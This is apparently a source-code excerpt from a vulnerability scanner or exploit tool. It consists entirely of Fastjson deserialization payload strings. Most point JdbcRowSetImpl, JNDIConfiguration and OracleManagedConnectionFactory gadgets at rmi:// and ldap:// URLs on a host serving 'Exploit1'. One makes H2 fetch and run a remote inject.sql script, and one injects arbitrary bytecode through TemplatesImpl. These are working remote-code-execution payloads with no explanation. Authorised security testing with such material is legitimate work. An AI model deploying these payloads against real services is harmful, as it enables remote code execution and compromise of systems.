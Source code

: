 "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\",\"autoCommit\":true}"

"{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\",\"autoCommit\":true}";

"{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\",\"autoCommit\":true}}"

"{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\",\"autoCommit\":true}}"

"{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"rmi://" + detetct.localip + ":1072/Exploit1\"}"

"{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\"}"

"{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://" + detetct.localip + ":1072/Exploit1\"}"

"{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://" + detetct.localip + ":8086/inject.sql'\"}"

"{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"" + evilCode + "\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ },\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}"

"{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\",\"autoCommit\":true}";

"{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\",\"autoCommit\":true}"

"{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\",\"autoCommit\":true}}"

"{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\",\"autoCommit\":true}"

 "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://" + detetct.localip + ":1074/Exploit1\"}"
 
"{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\"}"

"{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"ldap://" + detetct.localip + ":1074/Exploit1\"}"















